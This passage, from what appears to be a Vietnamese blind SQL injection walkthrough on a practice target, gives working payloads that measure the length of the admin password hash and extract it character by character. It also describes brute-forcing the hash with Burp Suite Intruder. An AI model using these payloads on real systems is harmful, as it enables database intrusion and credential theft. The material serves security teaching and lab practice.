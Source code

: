       ![](./images/21-54-13.png)
      > Từ kết quả cho thấy độ dài *password* nằm trong khoảng (31-34)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 32 -- -
      ```
      ![](./images/21-57-42.png)
      > Từ kết quả trên, ta có thể kết luận *password* đã được mã hóa bằng một thuật toán nào đó có độ dài 32 ký tự.

      Sau khi đã biết được độ dài của *password* khi được mã hóa thì chúng ta tiến hành brute-force giống với tìm `username` trong những bước trước đó.

      Ta sẽ sử dụng payload sau để thử kiểm tra
      ```
      1' AND BINARY SUBSTRING((SELECT password FROM users WHERE user = 'admin'), <vị trí>, 1) = '<ký_tự>' -- -
      ```
      Mở BurpSuite, sau đó di chuyển vào *Intruder* để thực hiện brute-force tìm ra *password* của `user` **admin**
